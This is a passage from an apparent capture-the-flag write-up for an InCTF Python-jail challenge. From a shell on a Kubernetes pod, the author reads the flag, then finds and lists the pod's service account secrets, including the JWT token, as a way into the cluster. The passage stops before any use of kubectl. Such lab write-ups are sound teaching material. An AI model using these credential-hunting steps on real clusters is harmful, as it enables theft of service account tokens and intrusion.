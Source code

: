After running ```ps```, we know that the python script running on server is at ```/app/```

Getting our flag for our first challenge,

```c
nobody@inctf-python-jail-56b4f88577-hrgt6:/$ cd app
cd app
nobody@inctf-python-jail-56b4f88577-hrgt6:/app$ ls
ls
chall.py  flag.txt
nobody@inctf-python-jail-56b4f88577-hrgt6:/app$ cat flag.txt
cat flag.txt
inctf{pyth0n_jail_is_fun_ri8}
```

For now, we have only completed the first half of the K8 challenge

There is much more to do on this Kubernetes Pod after gaining Shell/RCE

The description of this challenge is given,

```
hope you escaped python from jail,now try to find the secrets of k8s
```

They have mentioned about Secrets of K8, and actually there are some [information](https://kubernetes.io/docs/concepts/configuration/secret/) about it

Lets try to enumerate K8's secret,

Checking the mount file system,

```c
$ mount | grep kubernetes
mount | grep kubernetes
tmpfs on /run/secrets/kubernetes.io/serviceaccount type tmpfs (ro,relatime)
```

There is something on ```/run/secrets/kubernetes.io/serviceaccount```

Listing it,

```c
$ ls -la /run/secrets/kubernetes.io/serviceaccount
ls -la /run/secrets/kubernetes.io/serviceaccount
total 4
drwxrwxrwt 3 root root  140 Jan  9 05:56 .
drwxr-xr-x 3 root root 4096 Jan  8 08:02 ..
drwxr-xr-x 2 root root  100 Jan  9 05:56 ..2022_01_09_05_56_47.741267893
lrwxrwxrwx 1 root root   31 Jan  9 05:56 ..data -> ..2022_01_09_05_56_47.741267893
lrwxrwxrwx 1 root root   13 Jan  8 08:02 ca.crt -> ..data/ca.crt
lrwxrwxrwx 1 root root   16 Jan  8 08:02 namespace -> ..data/namespace
lrwxrwxrwx 1 root root   12 Jan  8 08:02 token -> ..data/token
```

Here we can confirm that these are service account's secret

And we can find ```token``` which is a JWT token, used for authorization 

Using this we can enumerate more about the kubernetes cluster, using ```kubectl```
